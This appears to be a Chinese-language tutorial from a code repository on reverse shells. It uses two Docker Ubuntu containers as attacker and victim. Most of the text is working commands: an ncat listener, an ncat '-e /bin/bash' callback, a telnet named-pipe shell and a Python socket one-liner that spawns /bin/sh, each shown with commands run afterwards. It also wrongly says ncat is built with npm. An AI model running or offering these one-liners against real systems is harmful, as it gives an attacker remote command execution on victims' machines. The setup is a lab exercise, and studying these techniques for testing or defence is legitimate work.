



## 反弹shell

### 1. 利用netcat反弹shell

需要两台linux，这里用docker起了两个ubuntu。netcat在一般的linux发行版都有，不过在ubuntu上需要使用npm构建的ncat。

```shell
apt install ncat
```

起的两个ubuntu上，一个作为attacker，一个作为victim。
其中在attacker上输入：
```shell
ncat -lvvp 2333
```
开启本地监听

在victim上：
```shell
ncat 172.17.0.2 2333 -e /bin/bash
```
没有bash用sh，ncat后跟的是attacker的ip和监听的端口

随后在attacker上即可反弹shell，效果如下


可以看到，在victim上执行了ncat操作，反弹shell到attacker，其中
```shell
ls
```
是我在攻击机上弹shell成功后输入的命令。

### 2. 利用telnet弹shell

与netcat上类似，在攻击机上开启端口监听：
```shell
ncat -lvvp 2333
```

然后目标机主动连接攻击机：
```shell
mknod a p; telnet 172.17.0.2 2333 0<a | /bin/bash 1>a
```


其中，
```shell
whoami
ls
```
是弹shell后输入的命令

### 3. python反弹shell

提示没python先安装python
```shell
apt install python3
```

攻击机上开启端口监听

```shell
ncat -lvvp 2333
```

目标机主动连接攻击机

```shell
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.17.0.2",2333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

会直接出现sh提示符，如图：



其中

```shell
ls
whoami
ifconfig
```
为反弹shell后输入的命令，可以看到ip显示的是目标机的172.17.0.3。
